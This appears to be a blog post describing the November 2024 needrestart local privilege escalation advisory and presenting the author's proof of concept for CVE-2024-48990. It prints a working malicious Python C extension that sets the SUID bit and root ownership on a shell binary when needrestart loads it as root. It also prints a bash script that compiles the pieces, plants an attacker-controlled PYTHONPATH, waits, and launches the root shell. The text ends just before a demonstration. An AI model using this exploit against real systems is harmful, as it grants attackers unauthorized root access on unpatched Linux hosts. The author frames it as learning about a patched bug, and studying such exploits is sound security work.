

# Context
A colleague shared with us today the following Qualys advisory: [https://www.qualys.com/2024/11/19/needrestart/needrestart.txt](https://www.qualys.com/2024/11/19/needrestart/needrestart.txt).

In this advisory, Qualys, releases technical details (but not PoCs) of how the package 'needrestart', written in Perl, is affected by multiple local privilege escalation vulnerabilities (quoting their advisory):
* **CVE-2024-48990**: local attackers can execute arbitrary code as root by
  tricking needrestart into running the Python interpreter with an
  attacker-controlled PYTHONPATH environment variable.
  Last-minute update: an additional CVE, **CVE-2024-48992**, has been
  assigned to needrestart because local attackers can also execute
  arbitrary code as root by tricking needrestart into running the Ruby
  interpreter with an attacker-controlled RUBYLIB environment variable.
  
* **CVE-2024-48991**: local attackers can execute arbitrary code as root by
  winning a race condition and tricking needrestart into running their
  own, fake Python interpreter (instead of the system's real Python
  interpreter).
  
* **CVE-2024-10224**: local attackers can execute arbitrary shell commands
  as root by tricking needrestart into open()ing a filename of the form
  "commands|" (technically, this vulnerability is in Perl's ScanDeps
  module, but it is unclear whether this module was ever meant to
  operate on attacker-controlled files or not).
  Last-minute update: in the end, an additional CVE, **CVE-2024-11003**, has
  been assigned to needrestart for calling Perl's ScanDeps module with
  attacker-controlled files.

These vulnerabilities have been there since April 2014. Jeesh... Plenty of time to exploit these.

Anyway, upon further reading I found this sentence for the details of CVE-2024-48990:
> We will not publish our exploits for now; however, please note that these vulnerabilities are trivially exploitable, and other researchers might publish working exploits shortly after this coordinated release.

That picked my interest and decided to accept the challenge to see how much time would it take me to exploit one of these (provided that I am not familiar with the needrestart utility and writting Python dynamic libraries). **Spoiler**: It was between 2 adn 3 hours.

# The PoC
**Disclaimer**: I have decided to release the PoC because there is already a patch for the vulnerable version of 'needrestart' and there are already other PoCs publicly available in Twitter. The only reason I did this was for my own learning process.

I assume that you have read the advisory now and will only present you the PoC.

I have uploaded the PoC here: [https://github.com/felmoltor/CVE-2024-48990/](https://github.com/felmoltor/CVE-2024-48990/)

There are three parts, the first is the malicious Python dynamic library that will be executed by 'needrestart' when loads the libraries in `PYTHONPATH`. A few questions to ChatGPT and reads of [python documentation on building C and C++ Extensions](https://docs.python.org/3/extending/building.html) did the trick here.
Basically, writing an extension for Python in C boils down to including <Python.h> and write the code inside `PyMODINIT_FUNC PyInit_modulename`, where `modulename` is the name of your module. For example, I called my library just "importlib". 
The code just checks if the UID that is running it is 0 (root), ans if so, changes the suid bit and owner of the file `/home/felipe/CVE-2024-48990/rootshell` to root:root. 

Here's the code:

```c
#include <Python.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <stdbool.h>


PyMODINIT_FUNC PyInit_importlib(void) {
    printf("[+] Malicious shared library loaded!\n");
    printf("[i] Running with UID %i\n", getuid());

    // Path to the SUID shell
    char *shell_path = "/home/felipe/CVE-2024-48990/rootshell";

    // Only run this if the UID is 0
    if (getuid()==0){
        // setting suid and chown root:root the reverse shell
        if (chown(shell_path, 0, 0) == 0) {
            printf("[+] Changed ownership of rootshell to root:root\n");
        } else {
            perror("[-] Failed to change ownership of rootshell to root");
        }

        // Set SUID permissions
        if (chmod(shell_path, 04755) == 0) {
            printf("[+] SUID permissions set on %s\n", shell_path);
        } else {
            perror("[-] Failed to set SUID permissions");
        }
    }
    // Initialization code for your malicious library
    return 0;
}
```

The second key part is a C root shell. There are millions of these in internet, so no point in showing the code here. If you are curious go to [rootshel.c](https://github.com/felmoltor/CVE-2024-48990/blob/main/rootshell.c).

The third part was a bash script that automates the compilation of the Python library, the rootshell and launches pyton process (loop.py) in background with the `PYTHONPATH` pointing to `/home/$USER/CVE-2024-48990/`. Finally, it just waits in a while loop for the utility 'needreboot' to do its magic and load the malicious library upon a periodic check (That "periodic check" can be simulated by yourself installing a new package with `sudo apt install nano` or any other small package). When 'needrestart' executes the library, the suid bit of the rootshell is on and owned by root, so the loop finishes and the shell is invoked:

```bash
#!/bin/bash

EXPPATH=/home/$USER/CVE-2024-48990/

# compile root shell 
echo "Compiling root shell "
gcc -o rootshell rootshell.c

echo "Compiling the malicious python library"
gcc -shared -fPIC -I /usr/include/python3.12/ -o importlib/__init__.so library.c

echo "Launching python loop.py in the background"
PYTHONPATH=$EXPPATH python3 loop.py &

# Wait for needrestart to do its job
file=$EXPPATH/rootshell
while true; do
    # Check if the file has the SUID flag and is owned by root
    if [[ -f "$file" && -u "$file" && "$(stat -c %U "$file")" == "root" ]]; then
        echo "[+] File '$file' has the SUID flag and is owned by root."
        break
    fi

    # Wait for 5 seconds before checking again
    sleep 2
done

./rootshell
```

And this is how it looks in action:



